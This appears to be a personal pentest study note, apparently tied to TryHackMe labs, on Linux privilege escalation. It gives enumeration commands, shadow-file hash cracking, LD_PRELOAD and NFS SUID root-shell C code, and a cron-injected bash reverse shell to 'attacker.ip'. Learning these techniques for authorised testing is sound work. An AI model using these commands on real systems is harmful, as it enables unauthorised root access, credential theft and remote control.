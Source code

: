 [[Pentest/LPE/Linux]] [[LPE]]
#### Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `sudo -l`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	* `unshadow /etc/passwd /etc/shadow > combined.txt`
	* `jonh --wordlist=/usr/share/wordlists/rockyou.txt combined.txt`
	   * Detect hash type in `/etc/shadow` using `grep ENCRYPT_METHOD /etc/login.defs`
	   * `hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt` [[hashcat]]
    
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

#### SUID
[[suid]]
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins

#### Capabilities
1. `getcap -r / 2>/dev/null`
2. Check gtfobins

#### Cron
[[cron]]
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`

#### PATH
 If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
![[Pasted image 20250118162215.png]]
Find writable dirs:
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
![[Pasted image 20250118162417.png]]
![[Pasted image 20250118162441.png]]

#### NFS
[[NFS]]
List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

## tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com

Discover open ports and services:
```shell
netstat -tulpn | grep LISTEN
```
or
`ss -tl`
## Misc
* `ss -tunlp` to find hidden ports [[ss]]
* sudo -l
* crontabs
* winpeas & inpeas 